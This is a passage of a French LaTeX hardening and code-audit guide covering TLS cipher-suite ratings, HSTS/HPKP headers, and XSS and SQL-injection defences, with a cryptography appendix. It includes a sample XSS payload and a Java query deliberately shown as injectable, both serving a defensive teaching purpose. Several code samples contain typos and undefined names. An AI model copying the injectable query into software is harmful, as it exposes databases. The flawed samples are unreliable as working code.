                child { node [concept]{SHA384}}
              }
              child { node [concept]{GCM}[clockwise from=220]
                child { node [concept]{SHA384}}
            }
         }
            child[good] { node [concept]{\scriptsize CHACHA20}[counterclockwise from=200]
              child { node [concept]{\tiny POLY1305}[counterclockwise from=175]
                child{node [concept]{SHA256}}
              }
            }
            child[bad] { node [concept]{RC4\\128}}
            child[bad,sibling angle=45] { node [concept]{NULL}}
    }
    child[deprecated,sibling angle=37] {% SRP utilise SHA-1 donc deprecated
          node[concept] {\underline{\textit{SRP\_SHA}}} [clockwise from=160]
            child { node [concept](SRP3DES){3DES\\EDE}[clockwise from=205]
              child { node [concept]{CBC}[clockwise from=220]
                child { node [concept](SRPSHA){SHA}}
            }}
            child{ node [concept](SRPAES128){AES\\128}[clockwise from=190]
              child { node [concept]{CBC}[clockwise from=210]
                child { node [concept]{SHA}}
            }}
            child{ node [concept](SRPAES256){AES\\256}[clockwise from=150]
              child { node [concept]{CBC}[clockwise from=210]
                child { node [concept]{SHA}}
            }}
            child[sibling angle=40] { node [concept](SRPRSA) {\textit{RSA}}}
            child[sibling angle=40] { node [concept](SRPDSS) {\textit{DSS}}}
    }
    child[bad,sibling angle=36.7] {
      node[concept] {\underline{NULL}}
    }
    child[deprecated,sibling angle=34] {
      node[concept](KRB5) {\underline{\textit{KRB5}}}[clockwise from=135]
        child[bad] { node [concept]{IDEA}}
            child { node [concept]{3DES\\EDE}[clockwise from=165]
              child { node [concept]{CBC}[clockwise from=180]
                child { node [concept]{SHA}}}}
        child[bad] { node [concept](KRB5DES){DES}}
        child[bad] { node [concept]{RC4}}
    }
    child[bad,sibling angle=33] {
      node[concept](ANYEXPORT) {(ANY)\\\underline{EXPORT}}
    }
    child[sibling angle=31.5] {
      node[concept] {\underline{RSA}}[counterclockwise from=20]
      	child{node [concept]{\textit{PSK}}
            child[medium] { node [concept]{AES\\128}[clockwise from=5]
              child { node [concept]{CBC}[clockwise from=5]
                child[deprecated] { node [concept](RSAPSKSHA2){SHA}}
                child { node [concept]{SHA256}}
              }
              child { node [concept]{GCM}[clockwise from=325]
                child { node [concept]{SHA256}}
              }
            }
            child[good] { node [concept]{AES\\256}[clockwise from=45]
              child[medium] { node [concept]{CBC}[clockwise from=45]
                child[deprecated] { node [concept](RSAPSKSHA){SHA}}
                child { node [concept]{SHA384}}
              }
              child { node [concept]{GCM}[clockwise from=0]
                child { node [concept]{SHA384}}
              }
            }
            child[bad] { node [concept]{RC4\\128}}
            child[good, level distance=16em] { node [concept]{\scriptsize CHACHA20}[counterclockwise from=10]
              child { node [concept]{\tiny POLY1305}[counterclockwise from=350]
                child{node [concept]{SHA256}}
              }
            }
            child[bad] { node [concept]{NULL}}
	}
    };

  
%Lien ajouté en fond pour les interaction supplémentaires
  \begin{pgfonlayer}{background}
      \path [outer color = white, inner color = blue!10]
      (-60em,-60em) rectangle (80em,40em);%Dégradé de couleurs pour le fond
    \path (DHE) to[circle connection bar switch color=from (green!40!black) to (red!60!black)] (DHRSAEXPORT);
    \path (DHDSS) to[circle connection bar switch color=from (green!40!black) to (red!60!black)] (DHERC4);
    \path (DHDSS) to[circle connection bar switch color=from (green!40!black) to (red!60!black)] (DHDES);
    \path (DHDSS) to[circle connection bar switch color=from (green!40!black) to (orange)] (DH3DES);
    \path (DHDSS) to[circle connection bar switch color=from (green!40!black) to (orange)] (DHSEED);
    \path (DHDSS) to[circle connection bar switch color=from (green!40!black) to (Cerulean)] (DHCAMELLIA128);
    \path (DHDSS) to[circle connection bar switch color=from (green!40!black) to (Cerulean)] (DHAES128);
    \path (ECDHECDSA) to[circle connection bar switch color=from (green!40!black) to (red!60!black)] (ECDHNULL);
    \path (ECDHRSA) to[circle connection bar switch color=from (green!40!black) to (red!60!black)] (ECDHRC4);
    \path (ECDHRSA) to[circle connection bar switch color=from (green!40!black) to (Cerulean)] (ECDHAES128);
    \path (ECDHRSA) to[circle connection bar switch color=from (green!40!black) to (orange)] (ECDH3DES);
    \path (ECDH) to[circle connection bar switch color=from (Cerulean) to (green!40!black) ] (ECDHECDSA);
    \path (ECDH) to[circle connection bar switch color=from (Cerulean) to (green!40!black) ] (ECDHRSA);
    \fill [circle connection bar]
      (DHE) edge[fill=green!40!black, color=green!40!black] (DHRSA)
      (DHE) edge[fill=green!40!black, color=green!40!black] (DHDSS)
      (DHDSS) edge[fill=green!40!black, color=green!40!black] (DHAES256)
      (DHDSS) edge[fill=green!40!black, color=green!40!black] (DHCAMELLIA256)
      (ECDHECDSA) edge[fill=green!40!black, color=green!40!black] (ECDHAES256)
      (ECDHECDSA) edge[fill=green!40!black, color=green!40!black] (ECDHCHACHA20)
      (ECDHPSK) edge[fill=green!40!black, color=green!40!black] (ECDHCHACHA20)
      (DHEPSK) edge[fill=green!40!black, color=green!40!black] (ECDHCHACHA20)
      (SRPRSA) edge[fill=orange, color=orange] (SRPAES128)
      (SRPRSA) edge[fill=orange, color=orange] (SRPAES256)
      (SRPRSA) edge[fill=orange, color=orange] (SRP3DES)
      (SRPDSS) edge[fill=orange, color=orange] (SRPAES128)
      (SRPDSS) edge[fill=orange, color=orange] (SRPAES256)
      (SRPDSS) edge[fill=orange, color=orange] (SRP3DES)
      ;
  \end{pgfonlayer}
\end{tikzpicture}
}
\end{lrbox}

\usebox{\mindmapTLS}
\endlist
\list{}{\leftmargin 6em}
\item[] 
\endlist

Cette mindmap représente l'état de l'art en matière de suites cryptographiques. Elle a été réalisée à des fins pratiques pour permettre une lecture rapide des éléments dangereux. Pour des raisons de lisibilité, les branches dites dangereuses telles que les suites EXPORT ou NULL sont tronquées après l'élément les déterminant comme dangereuses.\\Cette carte représente les recommandations en accord avec les RFC, le NIST et l'ANSSI, telles que:\begin{itemize}\item \textbf{Recommandé} (en vert) désigne les algorithmes et les suites cryptographiques considérés comme sûrs au vu de l'état de l'art.\item \textbf{Standard} (bleu) désigne un algorithme ou une ciphersuite n'étant sujet à aucune recommandation mais n'étant pas sujet à une contre-indication majeure.\item \textbf{Désuet} (orange) désigne les algorithmes étant considérés aujourd'hui comme faibles et exposés à certaines attaques. Cependant, ou qu'une mitigation existe côté client, ou que ce protocole soit nécessaire pour fonctionner avec d'anciens navigateurs, ils restent possibles à utiliser en acceptant le risque induit.\item\textbf{Dangereux} (rouge) désigne les ciphersuites ne permettant aucune protection de la confidentialité, de l'authenticité ou de l'intégrité. Elles peuvent être classées ainsi pour des principes de fonctionnement (Anon et NULL), des faibles tailles de clef (DES, IDEA, EXPORT), des faiblesses majeures dans le mécanisme de chiffrement (RC4).\end{itemize}De plus les algorithmes sont représentés dans l'ordre de lecture de la suite cryptographique, c'est à dire:\begin{itemize}\item \textbf{Protocole} (Ici forcément TLS) \item \underline{\textbf{Key Exchange Protocol}} (en souligné) est le protocole utilisé pour l'échange de clef. \item \textit{Authentication Protocol} (en italique) est le protocole assurant l'authenticité de la connexion en étant utilisé pour la signature de la communication. Cette étape peut être facultative et à la charge de l'algorithme d'échange de clef.\item Symetric Encryption Algorithm est l'algorithme utilisé pour chiffrer la communication. \item Encryption Mode est le mode de chiffrement par bloc utilisé avec cet algorithme.\item Hash algorithm est l'algorithme de hash utilisé pour le contrôle d'intégrité des messages. \end{itemize}Pour des raisons pratiques les algorithmes expérimentaux n'ont pas été représentés, tel que CECPQ1\_ECDSA, suites cryptographiques testées par Google dans son navigateur Chrome pour la Cryptographie Post Quantique. De même, l'algorithme GOST utilisé sous ses formes GOSTR341094 et GOSTR341001 n'a pas été représenté du fait du manque d'utilité et de son danger. En effet les attaques actuelles permettent de s'attaquer à l'algorithme de chiffrement symétrique GOST28147 en $2^{101}$ opérations.\\
De plus, un certain nombre de choix ont été fait concernant les algorithmes:\begin{itemize}
\item Le mode de chiffrement \textbf{CBC} est systématiquement dégradé à Standard malgré une sécurité parfaite dans le cas d'une connexion effectuée depuis un navigateur moderne. En effet, l'algorithme souffre d'une attaque par padding qui n'est pas corrigée sur les anciens navigateurs, cette attaque s'appelle POODLE.
\item L'algorithme 3DES-EDE ne doit être maintenu qu'à des fins de compatibilité.
\item La combinaison \textbf{*DHE\_*SA\_WITH\_AES\_256\_GCM\_SHA384} est la combinaison recommandée du fait de ses propriétés de PFS et de la solidité actuelle de AES256. De plus le mode de chiffrement GCM est un mode authentifié excluant les attaques par padding dont CBC a été victime.
\item DES et IDEA sont aujourd'hui des algorithmes trop faibles pour garantir une bonne sécurité.
\item SHA-1 est considéré comme désuet et ne devrait plus être utilisé.
\item SRP est classé comme \textit{deprecated} du à l'utilisation exclusive de SHA-1 dans les mécanismes de HMAC.
\item Les échanges de clefs anonymes sont facilement attaquables à l'aide d'une interception, l'échange doit toujours être signé.
\end{itemize}
Pour le reste, il est encouragé de se référer à la section attribuée ou à l'annexe Cryptographie.


\subsection{SSL/TLS: Gestion du certificat}

\section{Service Web}
\subsection{HTTPS: Header enforcement}
\begin{Define}{SSL/TLS!HSTS}
Il est possible de renforcer la politique SSL d'un serveur en utilisant des headers pour forcer l'utilisation systématique des connexions chiffrées (\textbf{HSTS}: HTTP Strict Transport Security) et pour conserver l'empreinte de la clef publique du certificat à l'aide de \textit{Certificat Pinning} (\textbf{HPKP}: HTTP Public Key Pinning Extension\index{SSL/TLS!HPKP}).
\end{Define}
Les headers sont de la forme suivante :
\begin{Config}{http}{Cookie HSTS}
HTTP/1.1 301 Moved Permanently
Server: nginx/1.6.2
Date: Tue, 22 Dec 2015 15:59:25 GMT
Content-Type: text/html
Content-Length: 184
Connection: keep-alive
Location: https://example.com
Strict-Transport-Security: max-age=63072000; includeSubdomains; preload
X-Content-Type-Options: nosniff
\end{Config}
Il est recommandé d'utiliser une durée de vie (\textit{max-age}) maximale pour éviter toute attaque ultérieure. L'option \textit{preload} permet de signaler aux moteurs d'indexation (Google, Mozilla et Bing Bot) d'enregistrer ce site comme utilisant https. Cette indexation permet aux navigateurs d'avoir le site dans une whitelist de site utilisant exclusivement des connexions sécurisées. L'option \textit{includeSubDomains} permet de protéger tous les sous-domaines.

\begin{Config}{http}{Cookie HPKP}
HTTP/1.1 200 OK
Content-Encoding: gzip
Content-Type: text/html
Date: Tue, 22 Dec 2015 15:55:46 GMT
Last-Modified: Tue, 08 Dec 2015 14:19:06 GMT
Public-Key-Pins: pin-sha256="87jMIxsCzrxEBjUR1ns9kwKJx1w0KIggqupv1ctrwkU="; max-age=2592000
Server: nginx/1.6.2
X-Content-Type-Options: nosniff
\end{Config}

Le header HPKP peut contenir un nombre étendu d'empreintes pour couvrir les chaines de signature et les certificats de backup.\\
 \\
\begin{Config}{nginx}{Ajout d'un header dans nginx}
add_header Strict-Transport-Security "max-age=63072000; includeSubdomains; preload"; 
\end{Config}
\begin{Config}{apache}{Ajout d'un header dans Apache}
Header always set Public-Key-Pins "pin-sha256=b64hash=; max-age=2592000"
\end{Config}
\begin{Config}{XML}{Ajout d'un header dans IIS}
<configuration>
    <system.webServer>
        <httpProtocol>
            <customHeaders>
            	<add name="Strict-Transport-Security" value="max-age=63072000"/>
            </customHeaders>
        </httpProtocol>
    </system.webServer>
</configuration>
\end{Config}

\subsection{Durcissement}

\chapter{Audit de code}
\section{Méthodologie générale}

\begin{Define}{Audit de code}
Un audit de code ou revue de code vise à parcourir le code développé à la recherche de vulnérabilités. Cela permet également de vérifier que les contrôles de sécurité appropriés sont présents, qu'ils fonctionnent comme prévu, et qu'ils ont été utilisés aux bons endroits.\\
L’audit de code est une bonne pratique permettant de trouver des vulnérabilités dans le code d’une application avant sa mise en production. Il y a plusieurs méthodes permettant d’évaluer la sécurité d’une application au niveau du code et il est recommandé d’en effectuer plusieurs pour avoir une évaluation la plus exacte possible du niveau de sécurité de l’application.
\end{Define}
\begin{Pre}
Il est important de disposer de plusieurs informations avant de répondre à un appel d'offre d'audit de code :\begin{itemize}
\item \textbf{Nombre de lignes de code} (LOC) : permet d’estimer la charge de travail
\item \textbf{Technologies utilisées} : permet d'évaluer les points spécifiques
\item \textbf{Points critiques} (\textit{Optionnel}): permet au client de préciser ses zones à risques
\end{itemize}
\end{Pre}
Un audit de code se déroule en trois étapes :\begin{itemize}
\item[\textbf{S}]cope: 
Dans cette étape, le consultant doit identifier à l’aide des informations du client les points d'étude dans le code. Le consultant doit également prendre connaissance du contexte métier de l’application afin de se focaliser sur ses parties sensibles.
\item[\textbf{A}]nalyse: 
Cette étape permet d'étudier le code fourni et de réaliser des constatations d'audit en adéquation avec les critères d'audit.
\item[\textbf{U}]sage (\textit{optionnel}): Le client peut demander une application pratique des vulnérabilités découvertes.
\item[\textbf{F}]ormalisation: Cette étape conclut l’audit de code et permet de rassembler les éléments constatés pour produire un rapport qui sera fourni au client.
\end{itemize}

\section{Audit de code de service web}
\subsection{Gestion des entrées utilisateurs: Cross-Site Scripting}
\begin{Define}{Vulnérabilités!XSS}
Une \gls{XSS} est une attaque consistant à injecter un code HTML, Javascript ou VB au sein d'une page web, visant à le faire exécuter par le navigateur du client de sorte d'induire un comportement anormal ou d'exploiter une vulnérabilité du-dit navigateur.\\Une XSS peut être:\begin{itemize}
\item \textbf{Réfléchie}(\textit{Volatil}): Une XSS réfléchie est une XSS apparaissant dans un contexte particulier et temporaire avec, par exemple, une requête présente dans les données envoyées via POST ou GET. Elle s'exécute seulement après la requête et est fournie par le serveur.
\item \textbf{Stockée} (\textit{Stored}): Une XSS stockée est une XSS archivée sur le site au sein d'une base de données ou insérée dans le code source. Elle s'exécute à chaque chargement de la page et est fournie par le serveur.
\item \textbf{Locale} (\textit{DOM based XSS}): Une XSS locale est une XSS déclenchée purement côté navigateur car chargée par le code côté client (information au sein de l'URL). Ce type d'attaque est invisible côté serveur et du à un manque de traitement côté client. Elle s'exécute seulement après la requête craftée et est fournie par le client.
\end{itemize}
\end{Define}

Pour lutter contre les XSS de type stockée et réfléchie, il est nécessaire d'envisager deux approches: \textbf{filtrage} des entrées, \textbf{assainissement} des sorties.

\subsubsection{Filtrage des entrées par REGEX}
En .NET, la librairie \textbf{System.Text.RegularExpressions} permet d'effectuer un filtrage par \gls{REGEX}. Il est, par exemple, possible de n'autoriser que les caractères alphabétiques. La recommandation optimale est d'autoriser les caractères légitimes uniquement, comme par exemple les signes de ponctuation ou les apostrophes pour un texte. Ce simple contrôle peut se faire côté .NET ou ASP.NET et devrait participer à la défense en profondeur.

\begin{Config}{csharp}{.NET: Filtrage en entrée - REGEX}
using System.Text.RegularExpressions;
//Filtrage des caractères alphabétiques et symboles présent dans un nom
	if(!Regex.IsMatch(sender.name, @"^[\p{L} \.\-\']+$"))
		throw new ApllicationException("Input not allowed");
\end{Config}	

\MarginPar{\textbf{.NET/ASP.NET}: Filtrage en entrée - REGEX}{0cm}Il est possible de réaliser ce type de filtrage avec ASP.NET en utilisant la  fonctionnalité \textit{asp:RegularExpressionValidator}
\begin{Config}{aspx-cs}{ASP.NET: Filtrage en entrée - REGEX}
<form id="form1" runat="server">
	<asp:TextBox ID="Month" runat="server"/>
	<asp:RegularExpressionValidator
		ID="regexpDate" runat="server" ErrorMessage="Month-Year"
		ControlToValidate="Month" ValidationExpression="^\d{2}-\d{4}$" />
</form>
\end{Config}

Ces deux fonctions sont présentes nativement au sein des frameworks ASP.NET et .NET.\newline\newline
En \gls{J2EE}, pour utiliser les \gls{REGEX},  il faut utiliser les classes \textit{Pattern} et \textit{Matcher} appartenant au package \textbf{java.util.regex}.\\
La première étape est de définir le motif que l'on veut utiliser et créer une instance de la classe \textit{Pattern}\MarginPar{\textbf{Java}: Filtrage en entrée - REGEX}{0cm} correspondante.
Une fois le motif compilé, la méthode \textit{Matcher} de la classe \textit{Pattern} permet d'interroger des chaines de caractères. 
\begin{Config}{Java}{Java EE: Filtrage en entrée - REGEX}
Pattern pattern = Pattern.compile ("^\\w+@[a-z]+\\.[a-z]{2,4}$");
Matcher matcher = pattern.matcher ("test@example.com");
\end{Config}\newline\newline

En PHP, la librairie PCRE assure la gestion des \gls{REGEX}.\MarginPar{\textbf{PHP}: Filtrage en entrée - REGEX}{0cm} Cette librairie est présente nativement depuis PHP 4.0.
\begin{Config}{php}{PHP: Filtrage en entrée - REGEX}
<?php
	$str = $_POST['year'];
	preg_match('/\d{2,4}/', $str, $matches);
	if($matches){echo "$str"}
?>
\end{Config}


\subsubsection{Filtrage des entrées via une librairie dédiée}
\MarginPar{\textbf{.NET/ASP.NET}: Filtrage en entrée - Librairie dédiée}{0cm}En .NET, il est possible de filtrer les entrées saisies à l'aide de la classe \textbf{HtmlSanitizer}, cette classe n'est pas native Windows.\\
Il est possible de l'utiliser en utilisant la commande \tool{nuGet} suivante:\\
\tool*{Install-Package HtmlSanitizer}[PM>]
\begin{Config}{csharp}{.NET: Filtrage en entrée - Librairie dédiée}
using Ganss.XSS;

	var input=sender.name;
	var sanitizer = new HtmlSanitizer();
	field.Text=sanitize.Sanitize(input);
\end{Config}	

\subsubsection{Assainissement en sortie via un encodage HTML}
L'encodage HTML permet l'affichage de caractères spéciaux HTML sans causer d'injection au sein du code.\\
Par exemple, \\
\indent \payloadhtml{<script>alert('blah');</script>}\\
sera converti en:\\
\indent \payloadhtml{&lt;script&gt;alert('blah');&lt;/script&gt;}\\


En .NET, il est possible de réaliser cela avec la fonction \textbf{AntiXssEncoder.HtmlEncode} de la librairie Windows \textbf{System.Web.Security.AntiXss}.\MarginPar{\textbf{.NET}: Assainissement en sortie - REGEX}{0cm}
\begin{Config}{csharp}{.NET: Assainissement en sortie via un encodage HTML}
using System.Web.Security.AntiXss;

	var input=sender.name;
	field.Text= AntiXssEncoder.HtmlEncode(input, true);

\end{Config}	

Ce comportement est géré nativement en ASP.NET via l'utilisation de blocs de code incorporé (\textit{embedded code blocks}). Ces blocs échappent automatiquement le code en faisant appel à la librairie définie dans la variable \textbf{encoderType} du \textbf{web.config}. Par défaut la librairie utilisée est \textit{Server.HtmlEncode}.\\
\begin{Config}{aspx-cs}{ASP.NET: Assainissement en sortie via un encodage HTML}
	//Deux examples d'implémentation de blocs en ASP.NET/Razor
	@sender.name
	
	<%:sender.name %>
\end{Config}
\MarginPar{\textbf{ASP.NET}: Assainissement en sortie - REGEX}{0cm}
\begin{Config}{xml}{web.config: Assainissement en sortie via un encodage HTML}
<configuration>
	<system.web>
		<compilation debug="false" targetFramework="4.5" />
		<httpRuntime targetFramework="4.5" 
			encoderType="System.Web.security.AntiXss.AntiXssEncoder"/>
	</system.web>
</configuration>
\end{Config}

\subsection{Gestion des entrées utilisateurs: Injection de code}
\begin{Define}{Injection de code}
Une injection de code est une attaque consistant à injecter du code au sein d'une entrée utilisateur afin d'exécuter un code du côté du serveur. \`A l'inverse des injections XSS, ce type d'attaque vise le serveur afin de lire des données, d'exécuter des commandes à distance ou à rebondir vers des serveurs internes.\\
Ce type d'attaque se divise en trois catégories:\begin{itemize}
\item Injection en base de données: Ce type d'injection utilise le mauvais traitement d'entrée utilisateur pour faire exécuter du code par une base de données. Ce code peut permettre de faire fuir des données, d'injecter d'autres données, ou même d'injecter du code en cas de mauvaise configuration du \gls{SGDB}. Le code injecté s'exécutera dans le même contexte que la \gls{SGDB}.
\item Injection de code brut: Ce type d'injection est possible lors de l'exploitation direct d'une entrée utilisateur via une commande système.
\item Injection XPath
\end{itemize}
\end{Define}

\subsubsection{Utilisation de Prepared Statements contre les injections en Base de données}
\begin{Warning}
Dans le cas des \textit{Prepared Statements}, le code utilise une requête préparée (potentiellement dynamiquement) et insère les paramètres dans la requête a posteriori via des fonctions spécifiques. \textbf{Il est important de lier ces paramètres aux entrées utilisateur et de ne pas utiliser les entrées utilisateur directement dans la requête}, ce qui rendrait l’utilisation des \textit{Prepared Statements} inutile.
\end{Warning}

Il est possible d'utiliser deux bibliothèques en .NET pour gérer les Prepared Statements: \textbf{SqlCommand} et \textbf{OlebCommand}. Ces librairies se distinguent sur le typage différent, par l'utilisation de driver de SGDB différents et par l'utilisation de paramètres nommés pour le premier.
\begin{Config}{csharp}{.NET: Prepared Statements avec paramètres nommés (SQLCommand)}
string cmd="SELECT * FROM users WHERE userid=@login AND password=@pass";
SqlCommand c = new SqlCommand(cmd, connection);
c.Parameters.Add("@login", SqlDbType.Int);
c.Parameters["@login"].Value = userID;
c.Parameters.Add("@pass", SqlDbType.Int);
c.Parameters["@pass"].Value = password;
SqlDataReader reader = command.ExecuteReader();
\end{Config}	
\MarginPar{\textbf{.NET}: Prepared Statement}{0cm}La bibliothèque \textit{OleDbCommand} ne supporte pas les paramètres nommés, cependant il est possible de les nommer pour la facilité d'usage. Les noms seront associés dans l'ordre d'apparition de la requête.
\begin{Config}{csharp}{.NET: Prepared Statements avec marqueurs (OleDbCommand)}
string cmd="SELECT * FROM users WHERE userid=? AND password=?";
OleDblCommand c = new SqlCommand(cmd, connection);
c.Parameters.Add("@p2", SqlDbType.Int);
c.Parameters["@p2"].Value = userID;
c.Parameters.Add("@p1", SqlDbType.Int);
c.Parameters["@p1"].Value = password;
OleDbDataReader reader = command.ExecuteReader();
\end{Config}	\newline\newline
Avec \gls{J2EE}, la classe \textbf{PreparedStatement} représente une instruction SQL précompilée qui peut être exécuté plusieurs fois sans avoir à être recompiler pour chaque exécution.
L’utilisation de cet objet permet de se prémunir contre l’injection d’instructions SQL par des attaquants.
Il est cependant important d’être prudent lors de l’usage de cet classe. En effet, sa mauvaise utilisation rend l’application toujours vulnérable aux injections SQL.\\

\begin{Config}{java}{Java EE: Prepared Statement}
uPreparedStatement stmt = 
	connection.prepareStatement("SELECT * FROM users WHERE userid=? AND password=?");
stmt.setString(1, userid);
stmt.setString(2, password);
ResultSet rs = stmt.executeQuery();
\end{Config}	

\MarginPar{\textbf{Java}: Prepared Statement}{0cm} Ce code n’est pas vulnérable aux injections SQL car il utilise correctement les requêtes paramétrées. En utilisant la classe PreparedStatement de Java en liant les variables (avec les points d'interrogation) aux méthodes \textit{setString} correspondantes, les  injections SQL peuvent être facilement évitée.

\begin{Config}{java}{Java EE: Prepared Statement vulnérable}

String query = 
	"SELECT * FROM users WHERE userid ='"+ userid + "'" + " AND password='" + password + "'";
PreparedStatement stmt = connection.prepareStatement(query);
ResultSet rs = stmt.executeQuery();

\end{Config}	

Ce code est vulnérable aux injections SQL car il utilise des requêtes dynamiques pour concaténer des données malveillantes à la requête elle-même. \newline\newline


En PHP, la classe \textbf{PDOStatement}, disponible depuis PHP 5.0, permet de créer et d’exécuter des instructions SQL paramétrées.\MarginPar{\textbf{PHP}: Prepared Statement}{0cm}
La méthode \textit{prepare} de la classe PDOStatement sert à créer une instruction qui sera ensuite exécuter avec la méthode \textit{execute}.

Une requête SQL crée par la méthode \textit{prepare} peut contenir des paramètres nommés ( :name) ou des marqueurs (?) qui seront ensuite remplacés par les paramètres désirés à l’exécution de la requête.

\begin{Config}{php}{PHP: Prepared Statement avec paramètres nommés}
<?php
/* Execute a prepared statement by passing an array of values */
$sql = 'SELECT name, colour, calories
    FROM fruit
    WHERE calories < :calories AND colour = :colour';
$sth->execute(array(':calories' => 150, ':colour' => 'red'));
$result = $sth->fetchAll();
?>
\end{Config}

\begin{Config}{php}{PHP: Prepared Statement avec marqueurs}
<?php
/* Execute a prepared statement by passing an array of values */
$sth = $dbh->prepare('SELECT name, colour, calories
    FROM fruit
    WHERE calories < ? AND colour = ?');
$sth->execute(array(150, 'red'));
$result = $sth->fetchAll();
?>
\end{Config}

\subsubsection{Utilisation de mapping objet-relationnel}
Les \textbf{\gls{ORM} Frameworks} permettent de gérer les requêtes sous la forme de méthodes d'objet. Ces frameworks permettent donc, entre autres, de paramétrer les requêtes.\\
.NET propose la solution Entity Framework qui permet à l'utilisateur de gérer les requêtes suivants deux méthodes: \textit{EntitySQL} et \textit{Link-To-Entities}.
EntitySQL implémente \gls{EDM}. Ce modèle permet de traiter les données en sortie comme un objet. En utilisant \textbf{EntityCommand}, il est possible de paramétrer les requêtes avec la méthode \textit{Parameteters}.
\begin{Config}{csharp}{.NET: Prepared Statements avec EntitySQL}
    string esqlQuery =
        @"SELECT VALUE Contact FROM AdventureWorksEntities.Contacts 
                    AS Contact WHERE Contact.LastName = @ln AND
                    Contact.FirstName = @fn";

    using (EntityCommand cmd = new EntityCommand(esqlQuery, conn))
    {
        EntityParameter param1 = new EntityParameter();
        param1.ParameterName = "ln";
        param1.Value = "Adams";
        EntityParameter param2 = new EntityParameter();
        param2.ParameterName = "fn";
        param2.Value = "Frances";

        cmd.Parameters.Add(param1);
        cmd.Parameters.Add(param2);

        using (DbDataReader rdr = cmd.ExecuteReader(CommandBehavior.SequentialAccess))
        {
            // Iterate through the collection of Contact items.
            while (rdr.Read())
            {
                Console.WriteLine(rdr["FirstName"]);
                Console.WriteLine(rdr["LastName"]);
            }
        }
    }
\end{Config}	


\appendix
\chapter{Cryptographie}
\section{Cryptographie symétrique}
\section{Cryptographie asymétrique}
\subsection{Principes}
\begin{Define}{Cryptographie asymétrique}
La cryptographie asymétrique repose sur un système à clefs publiques garantissant authenticité et confidentialité. Il existe deux types clefs dans ces systèmes:\begin{itemize}
\item Une clef publique permettant de chiffrer les données accessible par tous les destinataires.
\item Une clef privée permettant de déchiffrer les données chiffrées avec la clef publique.
\end{itemize}
La clef publique peut aussi servir à déchiffrer des données chiffrées avec la clef privée. La clef privée étant par essence, propre à un individu, cela permet d'authentifier un message.
\end{Define}
\begin{Warning}
Le chiffrement asymétrique est coûteux en temps, il est généralement utilisé pour chiffrer des petits blocs. Ainsi lors de l'envoi d'un message chiffré, le message est chiffré par chiffrement symétrique et la clef de déchiffrement, idéalement de 512 bits, est chiffrée par un chiffrement asymétrique. De même l'authentification du message se fait par le chiffrement asymétrique d'un condensat du message.
\end{Warning}

\subsection{Rivest Shamir Adleman (RSA)}
\begin{Define}{Cryptographie asymétrique!RSA}
\gls{RSA} est un algorithme de chiffrement asymétrique défini en 1977 par Rivest Shamir et Adleman. Il repose sur les propriétés du groupe $\mathbb{Z}/n\mathbb{Z}$. L'ordre du groupe est défini par le produit de deux premiers ($p$ et $q$) tel que $n=pq$ et $\phi_n=(p-1)(q-1)$.\\
La clef privée $d$ se choisit telle que $d \in \mathbb{N}$, $d<\phi_n$ et $gcd(d,\phi_n)=1$. Une fois la clef privée choisie, on génère la clef publique par $e\equiv d^{-1} \pmod{\phi_n}$.\\
Certaines recommandations existent concernant les tailles des différents exposants.\\
La clef publique est le couple $(e,n)$. La clef privée est le couple $(d,n)$.
\end{Define}
La chiffrement et le déchiffrement se réalisent par l'opération:\\
$\left\{
\begin{array}{l}
  C \equiv M^e \pmod n\\
  M \equiv C^d \pmod n
\end{array}
\right.$\\
La solidité de la clef repose sur la taille de $n$. Si $n$ est facilement factorisable, un attaquant pourrait obtenir l'exposant privé à partir de l'exposant publique.\\
L'\gls{ANSSI} recommande l'utilisation d'un exposant public de taille supérieure à \ZnZeAnssi et d'un exposant privé de taille proche de $n$ ou d'au moins \ZnZdAnssi. La taille de $n$ recommandée est de \ZnZnAnssi. Ces recommandations s'appliquent à l'ensemble des algorithmes de chiffrement reposant sur ces principes.\\

\subsection{Elliptic Curve Cryptography (ECC)\label{ECC}}
\begin{Define}{Cryptographie asymétrique!Elliptic Curve Cryptography}
Une courbe élliptique définie sur le corps premier fini $\mathbb{F}_p$ et utilisant les paramètres de domaine $(p,a,b,G,n,h)$ se définira par l'équation $E: y^2 \equiv x^3 + a.x + b \pmod p$ de sorte que $p$ et $n$ soient premiers, $n$ l'ordre du sous-groupe cyclique de $\mathbb{F}_p$ définit par $G(x_G,y_G)$, $h$ représente le cofacteur définit par $h=\frac{|E(\mathbb{F}_p)|}{n}$ avec $h<4$ et $a,b \in \mathbb{F}_p$.\\
Dans le cas de courbe définie sur le corps fini binaire $\mathbb{F}_{2^m}$ et utilisant les paramètres de domaine $(m,f,a,b,G,n,h)$ se définira par l'équation de courbe de Koblitz $E: y^2 + xy = x^3 + a.x + b$ avec $b \ne 0$, $f$ la représentation polynomiale de $\mathbb{F}_{2^m}$ et $m \in {163, 233, 239, 283, 409, 571}$. Les autres paramètres sont similaires à ceux définis pour les corps premiers finis. 
\end{Define}
Du fait de l'importance de ces paramètres, un certain nombre de courbes appartenant à $\mathbb{F}_p$ (non binaire) et à $\mathbb{F}_{2^m}$ ont été prédéfinies et recommandées par:\begin{itemize}
\item le \gls{NIST} (\ECCNIST)
\item le \gls{SECG}, groupe créé par Certicom en 1998 et dont les groupes sont approuvés par le \gls{NIST} (\ECCSECG)
\item ECC Brainpool, groupe de travail essentiellement allemand constitué d'universités et d'entreprises privées (\ECCBP)
\item Curve25519 proposée par Bernstein pour la réalisation d'un ECDH et d'une sécurité équivalente à P-256 \footnote{Curve25519 s'appuie sur un corps premier $\mathbb{F}_p$ avec $p=2^{255}-19$ et une courbe de Montgomery de type $y^2=x^3+486662x^2+x$ et un point de base égale à 9}.
\end{itemize}
Le problème de ce type de cryptographie est son manque de confiance due à la preuve mathématique\footnote{Cette thématique est abordé par le groupe ECC Brainpool dans \url{http://www.ecc-brainpool.org/download/Domain-parameters.pdf}}.\\
Les recommandations d'usage sont:\begin{itemize}
\item Pour l'\gls{ANSSI}: \ECDHrecosizeAnssi
\item Pour le \gls{NIST}: \ECDHrecosizeNIST
\item Pour la Suite B de la \gls{NSA}: \ECDHrecosizeCNSA
\end{itemize}
Il est à noter que la \gls{NSA} a émis en août 2015 un avis indiquant sa volonté de rendre désuette l'utilisation de l'\gls{ECC} dans la Suite B au profit d'algorithmes de type \textit{\gls{PQC}}\footnote{http://blog.cryptographyengineering.com/2015/10/a-riddle-wrapped-in-curve.html}.

\section{Intégrité des données, stockage et signature}

\section{Principe de Cryptographie}
\subsection{PFS}

\section{Implémentaion Cryptographique}
\subsection{TLS}
\subsubsection{Fonctionnement d'un handshake TLSv1.2}
\resizebox {\textwidth} {!} {
\begin{tikzpicture}
